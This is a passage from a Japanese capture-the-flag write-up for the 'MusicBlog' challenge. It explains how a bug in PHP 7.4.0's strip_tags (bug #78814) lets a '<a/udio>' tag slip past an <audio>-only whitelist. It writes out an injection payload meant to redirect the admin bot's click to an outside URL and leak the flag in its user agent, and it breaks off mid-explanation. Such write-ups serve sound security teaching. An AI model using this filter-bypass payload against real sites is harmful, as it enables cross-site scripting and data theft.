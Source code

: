`await page.setUserAgent(flag);` とユーザエージェントにフラグが入っています。まず `[[URL]]` を使って外部にリクエストを発生させる方法が考えられますが、`Content-Security-Policy: default-src 'self'; object-src 'none'; script-src 'nonce-yuAhic5Y6HSsT0e5zC8Qlg==' 'strict-dynamic'; base-uri 'none'; trusted-types` のようにやたらと厳しい Content Security Policy によって禁じられています。

では、admin が `await page.click('#like');` と `id` 属性が `like` になっている要素をクリックすることを利用して、XSS によって admin を外部の URL にリダイレクトさせることはできないでしょうか。記事の個別ページである `post.php` を見ると、以下のように記事の内容は `render_tags` に投げてその返り値をそのまま表示しています。

```php
︙
          <div class="mt-3">
            <?= render_tags($post['content']) ?>
          </div>
︙
```

`render_tags` は `util.php` で定義されています。

```php
<?php
// [[URL]] → <audio src="URL"></audio>
function render_tags($str) {
  $str = preg_replace('/\[\[(.+?)\]\]/', '<audio controls src="\\1"></audio>', $str);
  $str = strip_tags($str, '<audio>'); // only allows `<audio>`
  return $str;
}
︙
```

`[[URL]]` を `<audio controls src="URL"></audio>` に置換したあと、`strip_tags` によって `audio` 要素以外を消して XSS を防ごうとしています。これによって、`[["></audio><script>alert(1)</script>]]` のような文字列を投げても `<audio controls src=""></audio>alert(1)"></audio>` のように `<script>` と `</script>` が削除されてしまいます。なんとかならないでしょうか。

Web サーバの `Dockerfile` を見ると、使われている PHP のバージョンが PHP 7.4.0 であることがわかります。この記事が書かれた 2020 年 3 月 7 日時点での最新のバージョンは PHP 7.4.3 ですから、少し古いものが使われています。PHP 7.4.0 の次のバージョンである [PHP 7.4.1 の ChangeLog](https://www.php.net/ChangeLog-7.php#7.4.1) を見てみましょう。

> - Standard:
>   - Fixed bug #78814 (strip_tags allows / in tag name => whitelist bypass).

おや、`strip_tags` に存在したバグが直されているようです。どんなバグか [PHP :: Bug #78814 :: strip_tags allows / in tag name, allowing whitelist bypass in browsers](https://bugs.php.net/bug.php?id=78814) から詳しく見てみましょう。

> **Bug #78814 strip_tags allows / in tag name, allowing whitelist bypass in browsers**
> 
> When strip_tags is used with a whitelist of tags, php allows slashes ("/") that occur inside the name of a whitelisted tag and copies them to the result.
> 
> For example, if `<strong>` is whitelisted, then a tag `<s/trong>` is also kept.

`<strong>` というタグがホワイトリストとして与えられていた場合、これにスラッシュを付け加えた `<s/trong>` が投げられた場合にもこれを削除せずに通してしまうバグのようです。MusicBlog の場合にはホワイトリストとして `<audio>` が与えられていますが、`audio` は `a` を含むので `<a/udio>` を通してしまうようです。

これを利用すれば、`[["></audio><a/udio href="(URL)" id="like">test</a/udio><audio a="]]` のような内容の記事を公開することで以下のような HTML に展開され、
